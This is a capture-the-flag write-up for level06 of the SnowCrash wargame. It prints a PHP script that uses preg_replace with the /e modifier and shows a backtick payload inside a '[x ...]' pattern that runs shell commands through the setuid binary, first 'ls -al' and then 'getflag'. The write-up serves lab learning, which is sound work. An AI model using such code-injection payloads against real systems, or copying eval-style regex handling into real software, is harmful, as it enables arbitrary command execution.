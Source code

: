# Level06
Ls into the working directory. 
There is one executable and one .php file.
The first executable takes one file as argument and looks like it just applies the level06.php to its argument and outputs the result.

    level06@SnowCrash:~$ cat level06.php

    #!/usr/bin/php
    <?php
    
    function y($m) { 
	    $m = preg_replace("/\./", " x ", $m); 
	    $m = preg_replace("/@/", " y", $m); return $m; 
	    }
	
    function x($y, $z) { 
	    $a = file_get_contents($y); 
	    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
	    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); 
	    return $a; 
	    }
	
    $r = x($argv[1], $argv[2]); print $r;
    
    ?>

This PHP script reads the contents of a file and processes it through a series of regex.

it looks for patterns like `[x ...]` and replaces them with modified versions of the inner content.
-   It replaces periods (`.`) with `x` and `@` with `y` inside these patterns.
-   It then converts all square brackets to parentheses in the file content.
-   It prints the final modified content.

For instance:

    level06@SnowCrash:~$ echo "THIS IS A TEST : [x HELLO ... @@@]" > /tmp/testa
    level06@SnowCrash:~$ ./level06 /tmp/testa
    THIS IS A TEST : HELLO  x  x  x   y y y

    

## Security problem

The use of the `/e` modifier in `preg_replace` is highly insecure as it allows execution of arbitrary PHP code, which means that whatever is parsed is transformed into php code. This can lead to security vulnerabilities such as code injection. 

Good news for us...
For example :

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`ls -al`} ]' > /tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    PHP Notice:  Undefined variable: total 24
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile
     in /home/user/level06/level06.php(4) : regexp code on line 1
    TRYING THIS STUFF  

Now all we have to do is the same but with the getflag program, and we have our token.

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`getflag`} ]' > /tmp/test

https://www.php.net/manual/en/language.operators.execution.php